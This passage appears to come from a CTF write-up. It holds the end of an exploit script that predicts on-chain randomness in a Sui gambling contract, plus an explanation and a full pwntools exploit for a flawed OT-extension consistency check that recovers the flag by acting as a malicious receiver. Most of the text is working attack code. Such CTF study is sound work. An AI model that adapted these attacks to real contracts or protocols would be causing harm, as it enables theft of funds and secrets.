def make_superenalotto_tx(client: SyncClient, instance: Instance):
    tx = client.transaction(initial_sender=SuiAddress(instance.player_address))
    deposit = tx.split_coin(coin=tx.gas, amounts=[TICKET_PRICE])
    payout = tx.move_call(
        target=f"{instance.package_id}::trx_gambling_house::superenalotto",
        arguments=[
            ObjectID(normalize_hex_id(RANDOM_OBJECT_ID)),
            ObjectID(instance.house_object_id),
            deposit,
            PICKS,
        ],
    )
    tx.transfer_objects(
        transfers=[deposit, payout],
        recipient=SuiAddress(instance.player_address),
    )
    return tx


def make_setteemezzo_tx(client: SyncClient, instance: Instance):
    tx = client.transaction(initial_sender=SuiAddress(instance.player_address))
    deposit = tx.split_coin(coin=tx.gas, amounts=[TICKET_PRICE])
    payout = tx.move_call(
        target=f"{instance.package_id}::trx_gambling_house::setteemezzo",
        arguments=[
            ObjectID(normalize_hex_id(RANDOM_OBJECT_ID)),
            ObjectID(instance.house_object_id),
            deposit,
            SETTE_HIT_UNTIL,
        ],
    )
    tx.transfer_objects(
        transfers=[deposit, payout],
        recipient=SuiAddress(instance.player_address),
    )
    return tx


def execute_tx_data(client: SyncClient, tx: Any, tx_data: Any, options: dict[str, Any]) -> Any:
    tx_b64 = base64.b64encode(tx_data.serialize()).decode()
    exec_tx = ExecuteTransaction(
        tx_bytes=tx_b64,
        signatures=tx.signer_block.get_signatures(client=client, tx_bytes=tx_b64),
        options=options,
        request_type=SuiRequestType.WAITFORLOCALEXECUTION,
    )
    return client.execute(exec_tx)


def find_and_play_once(client: SyncClient, instance: Instance, args: argparse.Namespace) -> bool:
    balance = get_balance(client, instance.player_address)
    if balance < TICKET_PRICE + args.base_gas_budget:
        raise RuntimeError(f"balance too low: {balance / MIST_PER_SUI:.6f} SUI")

    gas_coin = pick_gas_coin(client, instance.player_address, TICKET_PRICE + args.base_gas_budget)
    tx = make_superenalotto_tx(client, instance)
    base_tx_data = tx._build_for_execute(str(args.base_gas_budget), use_gas_object=gas_coin)

    attempts = 0
    while attempts < args.max_attempts:
        round_before, random_bytes = fetch_random_state(instance.rpc_url)
        started = time.time()
        for offset in range(args.batch_size):
            budget = args.base_gas_budget + attempts + offset
            tx_data = copy.deepcopy(base_tx_data)
            tx_data.value.GasData.Budget = budget
            digest = transaction_digest(tx_data)
            winning = predict_winning_numbers(random_bytes, digest, ids_before_random=2)
            matches = len(set(PICKS).intersection(winning))
            if matches >= args.min_matches:
                round_after, _ = fetch_random_state(instance.rpc_url)
                if round_after != round_before:
                    print(f"[*] random round changed {round_before}->{round_after}; regrinding")
                    attempts += offset + 1
                    break
                print(
                    f"[+] candidate budget={budget} matches={matches} "
                    f"winning={winning} round={round_before} grind={time.time() - started:.3f}s"
                )
                if args.dry_run:
                    return True
                result = execute_tx_data(
                    client,
                    tx,
                    tx_data,
                    {
                        "showEffects": True,
                        "showEvents": True,
                        "showBalanceChanges": True,
                        "showObjectChanges": True,
                    },
                )
                if result.is_err():
                    raise RuntimeError(result.result_string)
                status = result.result_data.effects.status.status
                print(f"[*] tx status={status} digest={result.result_data.digest}")
                if status != "success":
                    return False
                return True
        else:
            attempts += args.batch_size
            print(f"[*] tried {attempts} budgets without a hit")
    raise RuntimeError("no candidate found before max attempts")


def play_gas_filtered_sette(client: SyncClient, instance: Instance, args: argparse.Namespace) -> None:
    attempts = 0
    wins = 0
    ticket_losses = 0
    while attempts < args.max_attempts:
        if attempts % args.balance_every == 0:
            balance = get_balance(client, instance.player_address)
            print(f"[*] attempt={attempts} balance={balance / MIST_PER_SUI:.6f} SUI wins={wins} ticket_losses={ticket_losses}")
            if balance >= TARGET_BALANCE:
                return
            if balance < TICKET_PRICE + SETTE_GAS_BUDGET:
                raise RuntimeError(f"balance too low: {balance / MIST_PER_SUI:.6f} SUI")

        gas_coin = pick_gas_coin(client, instance.player_address, TICKET_PRICE + SETTE_GAS_BUDGET)
        tx = make_setteemezzo_tx(client, instance)
        result = tx.execute(
            gas_budget=str(SETTE_GAS_BUDGET),
            use_gas_object=gas_coin,
            options={"showEffects": True, "showEvents": True, "showBalanceChanges": True},
        )
        attempts += 1
        if result.is_err():
            raise RuntimeError(result.result_string)

        data = result.result_data
        status = data.effects.status.status
        payout = 0
        for event in data.events or []:
            parsed = getattr(event, "parsed_json", None)
            if parsed and "payout" in parsed:
                payout = int(parsed["payout"])

        if status == "success":
            if payout:
                wins += 1
                balance = get_balance(client, instance.player_address)
                print(
                    f"[+] success payout={payout / MIST_PER_SUI:.0f} SUI "
                    f"digest={data.digest} balance={balance / MIST_PER_SUI:.6f}"
                )
                if balance >= TARGET_BALANCE:
                    return
            else:
                ticket_losses += 1
                print(f"[!] low-gas losing path succeeded digest={data.digest}")
        elif attempts % args.status_every == 0:
            print(f"[*] filtered aborts so far: {attempts - wins - ticket_losses}")

    raise RuntimeError("max attempts reached before target balance")


def request_flag(args: argparse.Namespace) -> None:
    if not args.launcher_host:
        return
    info = launcher_action(args.launcher_host, args.launcher_port, 3, args.launcher_ssl or args.launcher_port == 443)
    print(json.dumps(info, indent=2))


def main() -> int:
    parser = argparse.ArgumentParser()
    parser.add_argument("--hash", help="remote instance hash")
    parser.add_argument("--rpc", help="JSON-RPC URL")
    parser.add_argument("--launcher-host")
    parser.add_argument("--launcher-port", type=int)
    parser.add_argument("--launcher-ssl", action="store_true")
    parser.add_argument("--launcher-choice", type=int, default=1, choices=[1, 2])
    parser.add_argument("--player-address")
    parser.add_argument("--player-mnemonic")
    parser.add_argument("--package-id")
    parser.add_argument("--house-object-id")
    parser.add_argument("--min-matches", type=int, default=3)
    parser.add_argument("--base-gas-budget", type=int, default=1_000_000_000)
    parser.add_argument("--batch-size", type=int, default=2_000)
    parser.add_argument("--max-attempts", type=int, default=200_000)
    parser.add_argument("--dry-run", action="store_true")
    parser.add_argument("--mode", choices=["gas-sette", "predict-superenalotto"], default="gas-sette")
    parser.add_argument("--balance-every", type=int, default=25)
    parser.add_argument("--status-every", type=int, default=100)
    args = parser.parse_args()

    instance = get_instance(args)
    print(json.dumps(instance.__dict__, indent=2))
    client = build_client(instance)

    if args.mode == "gas-sette":
        play_gas_filtered_sette(client, instance, args)
        request_flag(args)
        return 0

    while True:
        balance = get_balance(client, instance.player_address)
        print(f"[*] balance: {balance / MIST_PER_SUI:.6f} SUI")
        if balance >= TARGET_BALANCE:
            request_flag(args)
            return 0
        ok = find_and_play_once(client, instance, args)
        if not ok:
            print("[!] submitted transaction did not succeed; stopping")
            return 1
        time.sleep(0.5)


if __name__ == "__main__":
    raise SystemExit(main())
```

## crypto/OTE

The challenge uses OT extension to send 16 additive shares per flag byte.

 Normally, the receiver can only obtain one share, so it should be secure.

The vulnerability is in the consistency check:

a = (w * A).parity

p = (s * C[alpha]).parity

It only checks **parity of linear combinations**, but does not ensure that Ui are valid codewords.

We act as a malicious receiver:

- Instead of honest Ui=C[r], we send:

Ui=C[r]⊕Ei

where Ei is a 16-bit interval mask.

This makes the check only constrain:

parity(s∩interval)

### Exploit

1. In base OT, send `(k0, k1) = (0, 0)` → full control over extension input
2. Use interval-shaped Ei
3. During consistency check:
   1. Decompose wE into codeword + residual
   2. Put codeword part into `alpha`
   3. Guess residual parity
4. Use abort oracle to retry
   1. Success probability ≈ 2−12
5. Recover Flag
   1. Obtain parity of each interval
   2. Reconstruct full s by enumeration
   3. Decrypt all shares:

公式 

$$flag[i] = \sum share_{i,j} \mod p$$

```Python
from __future__ import annotations

import argparse
import hashlib
import itertools
import math
import os
import multiprocessing as mp
import queue
import random
import secrets
import subprocess
import sys
import time
from dataclasses import dataclass

try:
    from pwn import context, process, remote
    context.log_level = os.environ.get("PWNLIB_LOG_LEVEL", "error")
except Exception as e:
    print("[-] This exploit uses pwntools.  Install it with: pip install pwntools", file=sys.stderr)
    raise

# ---------------------------------------------------------------------------
# Parameters from the challenge
# ---------------------------------------------------------------------------
N = 16
M = 256
KAPPA = 256
MU = 128
ROWS = M + MU
ELL = 256

P_FIELD = int("A9FB57DBA1EEA9BC3E660A909D838D726E3BF623D52620282013481D1F6E5377", 16)
A_CURVE = int("7D5A0975FC2C3057EEF67530417AFFE7FB8055C126DC5C6CE94A4B44F330B5D9", 16)
B_CURVE = int("26DC5C6CE94A4B44F330B5D9BBD77CBF958416295CF7E1CE6BCCDC18FF8C07B6", 16)
Q_ORDER = int("A9FB57DBA1EEA9BC3E660A909D838D718C397AA3B561A6F7901E0E82974856A7", 16)
GX = int("8BD2AEB9CB7E57CB2C4B482FFC81B7AFB9DE27E1E3BD23C23A4453BD9ACE3262", 16)
GY = int("547EF835C3DAC4FD97F8461A14611DC9C27745132DED8E545C1D54C72F046997", 16)
ALL256 = (1 << 256) - 1

OK = b"ok"
ABORT = b"abort"

# ---------------------------------------------------------------------------
# EC backend: use fastecdsa when available; otherwise pure Python fallback.
# ---------------------------------------------------------------------------
try:
    from fastecdsa.curve import brainpoolP256r1 as FCurve
    from fastecdsa.encoding.sec1 import SEC1Encoder as FEncoder
    HAVE_FASTECDSA = True
except Exception:
    HAVE_FASTECDSA = False

if HAVE_FASTECDSA:
    G_FAST = FCurve.G

    def ec_mul(k, P):
        return k * P

    def ec_add(P, Q):
        return P + Q

    def ec_sub(P, Q):
        return P - Q

    def point_to_bytes(P) -> bytes:
        return FEncoder.encode_public_key(P, compressed=True)

    def bytes_to_point(buf: bytes):
        return FEncoder.decode_public_key(buf, FCurve)

    G_POINT = G_FAST
else:
    Point = tuple[int, int] | None
    G_POINT = (GX, GY)

    def inv_mod(x: int) -> int:
        return pow(x % P_FIELD, P_FIELD - 2, P_FIELD)

    def ec_add(P: Point, Q: Point) -> Point:
        if P is None:
            return Q
        if Q is None:
            return P
        x1, y1 = P
        x2, y2 = Q
        if x1 == x2 and (y1 + y2) % P_FIELD == 0:
            return None
        if P == Q:
            lam = (3 * x1 * x1 + A_CURVE) * inv_mod(2 * y1) % P_FIELD
        else:
            lam = (y2 - y1) * inv_mod(x2 - x1) % P_FIELD
        x3 = (lam * lam - x1 - x2) % P_FIELD
        y3 = (lam * (x1 - x3) - y1) % P_FIELD
        return (x3, y3)

    def ec_neg(P: Point) -> Point:
        if P is None:
            return None
        x, y = P
        return (x, (-y) % P_FIELD)

    def ec_sub(P: Point, Q: Point) -> Point:
        return ec_add(P, ec_neg(Q))

    def ec_mul(k: int, P: Point) -> Point:
        R = None
        Q = P
        while k:
            if k & 1:
                R = ec_add(R, Q)
            Q = ec_add(Q, Q)
            k >>= 1
        return R

    def point_to_bytes(P: Point) -> bytes:
        if P is None:
            raise ValueError("cannot encode point at infinity")
        x, y = P
        return bytes([2 | (y & 1)]) + x.to_bytes(32, "big")

    def bytes_to_point(buf: bytes) -> Point:
        if len(buf) != 33 or buf[0] not in (2, 3):
            raise ValueError(f"unsupported SEC1 point: {buf.hex()}")
        x = int.from_bytes(buf[1:], "big")
        rhs = (pow(x, 3, P_FIELD) + A_CURVE * x + B_CURVE) % P_FIELD
        y = pow(rhs, (P_FIELD + 1) // 4, P_FIELD)  # brainpoolP256r1 p == 3 mod 4
        if (y * y - rhs) % P_FIELD != 0:
            raise ValueError("invalid compressed point")
        if (y & 1) != (buf[0] & 1):
            y = P_FIELD - y
        return (x, y)

# ---------------------------------------------------------------------------
# GF(2) helpers and challenge PRFs
# ---------------------------------------------------------------------------

def parity(x: int) -> int:
    return x.bit_count() & 1


def shake_int(data: bytes, outlen: int) -> int:
    return int.from_bytes(hashlib.shake_128(data).digest(outlen), "little")


def seed_to_vector_int(seed: bytes, length: int) -> int:
    return shake_int(seed, (length + 7) // 8) & ((1 << length) - 1)


def ote_mask(idx: int, seed_vec_256: int) -> int:
    data = idx.to_bytes(4, "little") + seed_vec_256.to_bytes(32, "little")
    return shake_int(data, 32) & ALL256


def commit(coins: bytes, salt: bytes) -> bytes:
    return hashlib.shake_128(salt + coins).digest(32)


def hash_point(P, tweak: bytes) -> int:
    return int.from_bytes(hashlib.shake_128(point_to_bytes(P) + tweak).digest(32), "big")


def bitrev8(x: int) -> int:
    y = 0
    for i in range(8):
        y = (y << 1) | ((x >> i) & 1)
    return y


def build_C() -> list[int]:
    C = []
    for alpha in range(256):
        a = bitrev8(alpha)
        w = 0
        for pos in range(256):
            if parity(pos & a):
                w |= 1 << pos
        C.append(w)
    return C

C = build_C()
INTERVAL = [((1 << 16) - 1) << (16 * t) for t in range(16)]

# First 16 WH codewords are constant on the 16 intervals.
CHUNK_C = []
for alpha in range(16):
    m = 0
    for t in range(16):
        if C[alpha] & INTERVAL[t]:
            m |= 1 << t
    CHUNK_C.append(m)
CODE_TO_ALPHA = {v: i for i, v in enumerate(CHUNK_C)}

# Row/option support at interval granularity for E_i = interval[t].
SUPPORT = [[None] * 16 for _ in range(16)]
for t in range(16):
    for j in range(16):
        m = CHUNK_C[j] ^ (1 << t)
        SUPPORT[t][j] = tuple(i for i in range(16) if (m >> i) & 1)

# Rows using these intervals.  We deliberately avoid interval 0: the first 16
# Walsh-Hadamard codewords are all zero there, so none of the output masks need
# that chunk.  This drops the online check quotient from 12 dimensions to 11.
ACTIVE_CHUNKS = [1, 2, 3, 4, 5, 6, 7, 11, 13, 14, 15]
SEED_CHUNKS = [1, 2, 4, 7, 11, 13]
HELPER_CHUNKS = [3, 5, 6, 14, 15]
COUNTS = {t: 2 for t in range(16)}
for t in range(16):
    COUNTS[t] = 0
for t in SEED_CHUNKS:
    COUNTS[t] = 26
for t in HELPER_CHUNKS:
    COUNTS[t] = 20
TROW = []
for t in range(16):
    TROW.extend([t] * COUNTS[t])
assert len(TROW) == 256

NEEDED_CHUNKS = set()
for t in ACTIVE_CHUNKS:
    for j in range(16):
        NEEDED_CHUNKS.update(SUPPORT[t][j])
NEEDED_CHUNKS.discard(0)
assert 0 not in NEEDED_CHUNKS

# B rows when every base-OT message is 0.  k0 == k1 == 0 means D == E.
B_COL = seed_to_vector_int((0).to_bytes(32, "little"), ROWS)
B_ROWS = [ALL256 if ((B_COL >> i) & 1) else 0 for i in range(M)]

# D matrix rows, serialized exactly like GF2Matrix.to_bytes(): row by row,
# little-endian bit packing inside each 32-byte row.
D_ROWS = [INTERVAL[TROW[i]] for i in range(M)] + [0] * MU
D_BYTES = b"".join(x.to_bytes(32, "little") for x in D_ROWS)

# Masks of protocol rows assigned to each interval, for computing wE.
ROWMASK_BY_CHUNK = []
for t in range(16):
    m = 0
    for i, ti in enumerate(TROW):
        if ti == t:
            m |= 1 << i
    ROWMASK_BY_CHUNK.append(m)

# RREF-ish basis for the 4-dimensional code subspace inside block-constant masks.
# Reducing a 16-bit chunk mask by this basis gives a 12-dimensional residual.
def make_code_basis():
    basis: list[tuple[int, int]] = []
    for v in CHUNK_C[1:]:
        x = v
        for p, b in basis:
            if (x >> p) & 1:
                x ^= b
        if x:
            p = x.bit_length() - 1
            # Make old rows zero at the new pivot for cleaner residual coordinates.
            new_basis = []
            for p2, b2 in basis:
                if (b2 >> p) & 1:
                    b2 ^= x
                new_basis.append((p2, b2))
            new_basis.append((p, x))
            new_basis.sort(reverse=True)
            basis = new_basis
    return basis

CODE_BASIS = make_code_basis()
PIVOTS = sorted([p for p, _ in CODE_BASIS])
FREE_POS = [i for i in range(16) if i not in PIVOTS]
assert len(FREE_POS) == 12


def reduce_chunk_mask(lam: int) -> tuple[int, int, int]:
    """Return (alpha, residual_mask, residual_coords)."""
    x = lam
    for p, b in CODE_BASIS:
        if (x >> p) & 1:
            x ^= b
    residual = x
    code_part = lam ^ residual
    alpha = CODE_TO_ALPHA[code_part]
    coords = 0
    for k, pos in enumerate(FREE_POS):
        if (residual >> pos) & 1:
            coords |= 1 << k
    return alpha, residual, coords


def parity_masks_from_guess(guess12: int) -> list[int]:
    """All 16 possible interval-parity masks after a passed quotient check."""
    base = 0
    for k, pos in enumerate(FREE_POS):
        if (guess12 >> k) & 1:
            base |= 1 << pos
    masks = []
    for z in range(1 << len(PIVOTS)):
        m = base
        for k, pos in enumerate(PIVOTS):
            if (z >> k) & 1:
                m |= 1 << pos
        masks.append(m)
    return masks


def parity_masks_from_equations(guess12: int, coords_list: list[int] | None) -> list[int]:
    """Interval parity masks compatible with the checks that actually passed."""
    if coords_list is None:
        return parity_masks_from_guess(guess12)

    masks = []
    for z in range(1 << len(FREE_POS)):
        if any(parity((z ^ guess12) & coords) for coords in coords_list):
            continue

        base = 0
        for k, pos in enumerate(FREE_POS):
            if (z >> k) & 1:
                base |= 1 << pos
        for piv in range(1 << len(PIVOTS)):
            m = base
            for k, pos in enumerate(PIVOTS):
                if (piv >> k) & 1:
                    m |= 1 << pos
            masks.append(m)
    return sorted(set(masks))


def quotient_rank_for_active_rows() -> int:
    basis: list[tuple[int, int]] = []
    for t in range(16):
        if ROWMASK_BY_CHUNK[t] == 0:
            continue
        _, residual, _ = reduce_chunk_mask(1 << t)
        x = residual
        for p, b in basis:
            if (x >> p) & 1:
                x ^= b
        if x:
            p = x.bit_length() - 1
            new_basis = []
            for p2, b2 in basis:
                if (b2 >> p) & 1:
                    b2 ^= x
                new_basis.append((p2, b2))
            new_basis.append((p, x))
            new_basis.sort(reverse=True)
            basis = new_basis
    return len(basis)


CHECK_RANK = quotient_rank_for_active_rows()

# ---------------------------------------------------------------------------
# Wire helpers
# ---------------------------------------------------------------------------

def send_hexline(io, data: bytes):
    io.sendline(data.hex().encode())


def send_int(io, x: int):
    io.sendline(f"{x:x}".encode())


def send_point(io, P):
    send_hexline(io, point_to_bytes(P))


def recv_line(io) -> bytes:
    line = io.recvline()
    if line is None or line == b"":
        raise EOFError("connection closed")
    return line.strip()


def recv_bytes(io) -> bytes:
    line = recv_line(io)
    return bytes.fromhex(line.decode())


def recv_int(io) -> int:
    line = recv_line(io)
    return int(line, 16)


def recv_point(io):
    return bytes_to_point(recv_bytes(io))

# ---------------------------------------------------------------------------
# Malicious receiver protocol
# ---------------------------------------------------------------------------

def malicious_base_ot_sender(io):
    """Act as OT sender, but set every base-OT message pair to (0, 0)."""
    # x = 1 is valid for this OT and avoids 256 scalar multiplications per
    # retry: P = G, S0 = R, and S1 = R - G.
    P = G_POINT
    send_point(io, P)

    # The honest receiver sends all R_i before reading our c0/c1 values.
    Rs = [recv_bytes(io) for _ in range(KAPPA)]
    for ctr, R in enumerate(Rs):
        S1 = ec_sub(bytes_to_point(R), G_POINT)
        tweak = ctr.to_bytes(16, "little")
        send_int(io, int.from_bytes(hashlib.shake_128(R + tweak).digest(32), "big"))  # xor 0
        send_int(io, hash_point(S1, tweak))  # xor 0


def one_attempt(io, guess12: int, verbose=False) -> tuple[list[list[int]], list[int]] | None:
    malicious_base_ot_sender(io)

    # D = E because both base-OT seeds are 0.
    send_hexline(io, D_BYTES)

    # Coin flipping / commitments.
    receiver_coins = secrets.token_bytes(32)
    receiver_salt = secrets.token_bytes(16)
    send_hexline(io, commit(receiver_coins, receiver_salt))

    sender_com = recv_bytes(io)
    send_hexline(io, receiver_coins)
    send_hexline(io, receiver_salt)
    sender_coins = recv_bytes(io)
    sender_salt = recv_bytes(io)

    if commit(sender_coins, sender_salt) != sender_com:
        send_hexline(io, ABORT)
        raise RuntimeError("sender commitment did not verify")
    send_hexline(io, OK)

    resp = recv_bytes(io)
    if resp != OK:
        if verbose:
            print(f"[-] commit phase response: {resp!r}")
        return None

    # Consistency check.  For each challenge w, wE is a 16-bit chunk mask.
    # We absorb its codeword component in alpha and guess only the 12 residual
    # parity bits.  guess12 is fixed for the whole attempt.
    seed = receiver_coins + sender_coins
    bbits = 0
    alphas = []
    coords_list = []
    for l in range(MU):
        w = seed_to_vector_int(seed + l.to_bytes(4, "little"), ROWS)
        lam = 0
        for t in range(16):
            if parity(w & ROWMASK_BY_CHUNK[t]):
                lam |= 1 << t
        alpha, residual, coords = reduce_chunk_mask(lam)
        alphas.append(alpha)
        coords_list.append(coords)
        # parity(wB) is zero because all 256 B columns are identical.
        if parity(guess12 & coords):
            bbits |= 1 << l

    send_hexline(io, bbits.to_bytes(16, "little"))
    for a in alphas:
        send_int(io, a)

    resp = recv_bytes(io)
    if resp == ABORT:
        return None
    if resp != OK:
        raise RuntimeError(f"unexpected check response: {resp!r}")

    ys = []
    for _ in range(M):
        ys.append([recv_int(io) for _ in range(N)])
    return ys, coords_list

# ---------------------------------------------------------------------------
# Offline recovery once a check passes
# ---------------------------------------------------------------------------

def candidate_lists(ys: list[list[int]], parity_mask: int) -> list[list[int]]:
    rows_by_chunk = [[] for _ in range(16)]
    for i, t in enumerate(TROW):
        rows_by_chunk[t].append(i)

    out = []
    for t in range(16):
        want_par = (parity_mask >> t) & 1
        arr = []
        if not rows_by_chunk[t]:
            if t not in NEEDED_CHUNKS:
                out.append([0])
                continue
            shift = 16 * t
            for small in range(1 << 16):
                if parity(small) == want_par:
                    arr.append(small << shift)
            out.append(arr)
            continue
        shift = 16 * t
        for small in range(1 << 16):
            if parity(small) != want_par:
                continue
            v = small << shift
            good = True
            for i in rows_by_chunk[t]:
                x = ys[i][0] ^ ote_mask(i, B_ROWS[i] ^ v)
                if x >= P_FIELD:
                    good = False
                    break
            if good:
                arr.append(v)
        out.append(arr)
    return out


def full_verify_and_flag(vals: dict[int, int], ys: list[list[int]]) -> bytes | None:
    flag_bytes = []
    for i, t in enumerate(TROW):
        total = 0
        for j in range(16):
            seed = B_ROWS[i]
            for u in SUPPORT[t][j]:
                seed ^= vals[u]
            x = ys[i][j] ^ ote_mask(i, seed)
            if x >= P_FIELD:
                return None
            total = (total + x) % P_FIELD
        if total >= 256:
            return None
        flag_bytes.append(total)
    return bytes(flag_bytes).strip(b"\x00")


def propagate_and_solve(init_vals: dict[int, int], cand: list[list[int]], ys: list[list[int]], node_limit=20000):
    constraints = [(i, t, j, SUPPORT[t][j]) for i, t in enumerate(TROW) for j in range(1, 16)]
    nodes = 0

    def rec(vals: dict[int, int], lists: list[list[int]]):
        nonlocal nodes
        nodes += 1
        if nodes > node_limit:
            return None

        changed = True
        while changed:
            changed = False
            for u in range(16):
                if u in vals:
                    continue
                usable = []
                for i, t, j, S in constraints:
                    if u not in S:
                        continue
                    if all((v in vals) or v == u for v in S):
                        usable.append((i, t, j, S))
                if not usable:
                    continue

                new = []
                for vv in lists[u]:
                    ok = True
                    for i, t, j, S in usable:
                        seed = B_ROWS[i]
                        for v in S:
                            seed ^= vv if v == u else vals[v]
                        if ys[i][j] ^ ote_mask(i, seed) >= P_FIELD:
                            ok = False
                            break
                    if ok:
                        new.append(vv)

                if not new:
                    return None
                if len(new) < len(lists[u]):
                    lists = lists[:]
                    lists[u] = new
                    changed = True
                if len(new) == 1:
                    vals = vals.copy()
                    vals[u] = new[0]
                    changed = True

        if all(u in vals for u in NEEDED_CHUNKS):
            full_vals = {u: 0 for u in range(16)}
            full_vals.update(vals)
            flag = full_verify_and_flag(full_vals, ys)
            if flag is not None:
                return full_vals, flag
            return None

        # Branch only when propagation cannot continue.  This is usually tiny
        # because the row allocation above creates many unary filters.
        unknown = [u for u in NEEDED_CHUNKS if u not in vals]
        u = min(unknown, key=lambda z: len(lists[z]))
        for vv in lists[u]:
            vals2 = vals.copy()
            vals2[u] = vv
            lists2 = lists[:]
            lists2[u] = [vv]
            got = rec(vals2, lists2)
            if got is not None:
                return got
        return None

    return rec(dict(init_vals), [x[:] for x in cand])


def recover_flag(ys: list[list[int]], guess12: int, coords_list: list[int] | None = None, verbose=True) -> bytes:
    # The quotient check gives linear equations on the free interval parities.
    # The pivot parities are still outside the quotient, so enumerate those too.
    for pmask in parity_masks_from_equations(guess12, coords_list):
        cand = candidate_lists(ys, pmask)
        if verbose:
            sizes = [len(x) for x in cand]
            seed_prod = math.prod(max(1, len(cand[t])) for t in SEED_CHUNKS)
            print(f"[*] parity mask {pmask:04x}; candidate sizes={sizes}; seed_product={seed_prod}", flush=True)
        if any(len(x) == 0 for x in cand):
            continue

        seed_lists = [cand[t] for t in SEED_CHUNKS]
        for combo in itertools.product(*seed_lists):
            init = {t: v for t, v in zip(SEED_CHUNKS, combo)}
            got = propagate_and_solve(init, cand, ys)
            if got is not None:
                vals, flag = got
                if verbose:
                    print(f"[+] recovered interval values: {[hex(vals[t] >> (16*t)) for t in range(16)]}", flush=True)
                return flag
    raise RuntimeError("offline recovery failed; try another successful transcript")

# ---------------------------------------------------------------------------
# Main
# ---------------------------------------------------------------------------

def start_io(args):
    if args.local:
        # Run from the challenge directory so imports channel/ote/ot work.
        server_path = os.path.abspath(args.local)
        cwd = os.path.dirname(server_path)
        env = os.environ.copy()
        if args.flag:
            env["FLAG"] = args.flag
        return process([sys.executable, server_path], cwd=cwd, env=env)
    return remote(args.host, args.port)


def log(msg: str, worker: int | None = None):
    prefix = f"[w{worker}] " if worker is not None else ""
    print(prefix + msg, flush=True)


def consume_initial_banner(io, worker: int | None = None):
    # Only printed once, before the retry loop.
    while True:
        line = recv_line(io)
        log(line.decode(errors="replace"), worker)
        if b"Generated" in line:
            return


def solve_loop(args, worker: int | None = None, stop_event=None, result_queue=None) -> bytes | None:
    attempts_done = 0
    consecutive_errors = 0
    while attempts_done < args.max_attempts:
        if stop_event is not None and stop_event.is_set():
            return None
        io = None
        try:
            io = start_io(args)
            consume_initial_banner(io, worker)

            t0 = time.time()
            while attempts_done < args.max_attempts:
                if stop_event is not None and stop_event.is_set():
                    return None
                attempts_done += 1
                if (attempts_done - 1) % args.progress_interval == 0:
                    log(f"[*] attempt {attempts_done}/{args.max_attempts} ... elapsed={time.time() - t0:.1f}s", worker)
                transcript = one_attempt(io, args.guess)
                if transcript is None:
                    # Server sent abort line, then prints a prompt asking whether to retry.
                    io.recvuntil(b"(y/n):")
                    io.sendline(b"y")
                    continue

                ys, coords_list = transcript
                log(f"[+] consistency check passed on attempt {attempts_done}", worker)
                if stop_event is not None:
                    stop_event.set()
                flag = recover_flag(ys, args.guess, coords_list, verbose=(worker is None or worker == 0))
                log(f"[+] FLAG = {flag!r}", worker)
                try:
                    log(flag.decode(), worker)
                except Exception:
                    pass
                if result_queue is not None:
                    result_queue.put(("ok", worker, flag))
                return flag
        except Exception as e:
            consecutive_errors += 1
            if attempts_done == 0:
                attempts_done = 1
            if stop_event is not None and stop_event.is_set():
                return None
            log(f"[-] worker error after {attempts_done} attempts: {type(e).__name__}: {e}", worker)
            if result_queue is not None:
                result_queue.put(("error", worker, repr(e)))
            if consecutive_errors >= 5:
                return None
            time.sleep(0.5)
        finally:
            if io is not None:
                try:
                    io.close()
                except Exception:
                    pass
    return None


def worker_entry(args, worker: int, stop_event, result_queue):
    solve_loop(args, worker=worker, stop_event=stop_event, result_queue=result_queue)


def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("host", nargs="?")
    ap.add_argument("port", nargs="?", type=int)
    ap.add_argument("--local", help="run local server.py instead of connecting remotely")
    ap.add_argument("--flag", help="FLAG env var for --local testing")
    ap.add_argument("--guess", type=lambda s: int(s, 0), default=0,
                    help="12-bit quotient guess; default 0.  Any fixed value succeeds with prob 2^-12.")
    ap.add_argument("--max-attempts", type=int, default=20000)
    ap.add_argument("--jobs", type=int, default=1,
                    help="number of parallel connections/processes")
    ap.add_argument("--progress-interval", type=int, default=25,
                    help="print progress every N attempts per worker")
    args = ap.parse_args()
    if not args.local and (args.host is None or args.port is None):
        ap.error("provide HOST PORT or --local server.py")
    if args.local:
        args.local = os.path.abspath(args.local)
        if not os.path.isfile(args.local):
            ap.error(f"--local path does not exist: {args.local}")
    if args.guess < 0 or args.guess >= (1 << 12):
        ap.error("--guess must be a 12-bit integer")

    if args.jobs < 1:
        ap.error("--jobs must be positive")
    if args.progress_interval < 1:
        ap.error("--progress-interval must be positive")

    log(f"[*] fastecdsa backend: {HAVE_FASTECDSA}")
    log(f"[*] free parity positions={FREE_POS}, pivot positions={PIVOTS}")
    log(f"[*] row counts={COUNTS}")
    log(f"[*] active check quotient rank={CHECK_RANK}")
    log(f"[*] expected online success probability: about 2^-{CHECK_RANK} per attempt")

    if args.jobs == 1:
        flag = solve_loop(args)
        if flag is None:
            raise SystemExit(f"[-] no success after {args.max_attempts} attempts")
        return

    per_worker = (args.max_attempts + args.jobs - 1) // args.jobs
    args.max_attempts = per_worker
    log(f"[*] starting {args.jobs} workers, up to {per_worker} attempts each")
    stop_event = mp.Event()
    result_queue = mp.Queue()
    procs = [
        mp.Process(target=worker_entry, args=(args, wid, stop_event, result_queue), daemon=True)
        for wid in range(args.jobs)
    ]
    for p in procs:
        p.start()

    found = None
    try:
        while any(p.is_alive() for p in procs):
            try:
                kind, wid, payload = result_queue.get(timeout=1.0)
            except queue.Empty:
                continue
            if kind == "ok":
                found = payload
                stop_event.set()
                break
        if found is None:
            # One last non-blocking drain in case the winning worker exited just
            # before the loop observed process state.
            while True:
                try:
                    kind, wid, payload = result_queue.get_nowait()
                except queue.Empty:
                    break
                if kind == "ok":
                    found = payload
                    stop_event.set()
                    break
    finally:
        stop_event.set()
        for p in procs:
            p.join(timeout=2.0)
            if p.is_alive():
                p.terminate()
        for p in procs:
            p.join(timeout=1.0)

    if found is None:
        raise SystemExit(f"[-] no success after about {per_worker * args.jobs} attempts")


if __name__ == "__main__":
    main()

# python3 ote.py ote.ctf.theromanxpl0.it 9095 --max-attempts 4096 --jobs 32 --progress-interval 25
```